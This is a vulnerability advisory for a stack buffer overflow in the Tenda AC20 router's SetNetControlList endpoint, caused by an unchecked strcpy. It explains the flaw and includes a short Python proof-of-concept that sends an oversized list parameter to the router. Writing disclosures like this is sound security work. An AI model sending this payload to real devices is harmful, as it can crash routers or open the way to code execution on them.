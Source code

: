 # Stack-Based Buffer Overflow in Tenda AC20 (firmware V16.03.08.12) formSetQosBand

## Summary

A stack-based buffer overflow vulnerability in the Tenda AC20 router (firmware V16.03.08.12) allows unauthenticated remote attackers to execute arbitrary code or cause denial of service (DoS) via the `list` parameter in the `/goform/SetNetControlList` endpoint. The flaw resides in the `set_qosMib_list` function, which processes the `list` input using the unsafe `strcpy` function without bounds checking, leading to stack memory corruption.

## Details


*   **Vendor**: Tenda

*   **Product**: Tenda AC20

*   **Firmware Version**: V16.03.08.12

*   **Firmware Download**: [https://www.tenda.com.cn/material/show/3264](https://www.tenda.com.cn/material/show/3264)

*   **Component**: `/goform/SetNetControlList`

*   **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)

*   **CVE ID**: Pending

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Description

The vulnerability exists in the processing chain of the `list` parameter in the `formSetQosBand` function and its dependent `set_qosMib_list` function. The call chain and key operations are as follows:



1.  **Parameter Retrieval**: The `list` parameter is retrieved via `websGetVar` in `formSetQosBand` and directly passed to `set_qosMib_list` for QoS bandwidth control rule processing, with no initial input validation.

2.  **Rule Parsing**: `set_qosMib_list` splits the `list` input by a delimiter (controlled by the second parameter `a2`, value 10) using `strchr`. Each split segment is treated as a QoS rule entry.

3.  **Unsafe Copy**: For each split rule entry, the critical unsafe operation occurs:

*   `strcpy(v8, s)`: Copies the user-controlled rule segment (`s`, derived from `list`) into `v8`, a fixed-size 256-byte stack buffer.

*   `strcpy` does not check the length of `s` against the size of `v8`. If `s` exceeds 255 bytes (plus the null terminator), it will overflow the `v8` buffer.

1.  **Subsequent Parsing**: After the unsafe copy, `sscanf` is used to parse fields from `v8` (e.g., via `sscanf(v8, ";%[^;];%[^;];%[^;];%[^;];", ...)` or `sscanf(v8, "%[^\r]\r%[^\r]\r%[^\r]\r%s", ...)`). Even if parsing is intended to extract specific fields, the prior `strcpy` already introduces the overflow risk.

If the user-controlled `list` parameter contains a rule segment longer than 255 bytes, `strcpy(v8, s)` will overflow the 256-byte `v8` buffer, overwriting adjacent stack memory (including return addresses, saved registers, and other critical stack data). This allows an attacker to corrupt the stack and potentially execute arbitrary code.
![PoC 2 Result: Root Directory Listing](./imgs/0.png)
![PoC 2 Result: Root Directory Listing](./imgs/1.png)

## PoC: Python Exploit Script

```
from pwn import *
import requests
url = "http://192.168.XXX.XXX/goform/SetNetControlList"
cookie = {"Cookie":"password=rfl1qw"}
data = {"list": cyclic(1000)}
res = requests.post(url, cookies=cookie, data=data)
res = requests.post(url, cookies=cookie, data=data)
print(res.text)
```

This script sends a crafted `list` parameter containing an overly long QoS rule segment. When processed by `set_qosMib_list`, the `strcpy(v8, s)` call will overflow the `v8` buffer, causing stack corruption. Successful exploitation may result in arbitrary code execution or a denial of service condition (router crash/reboot).
![PoC 2 Result: Root Directory Listing](./imgs/2.png)
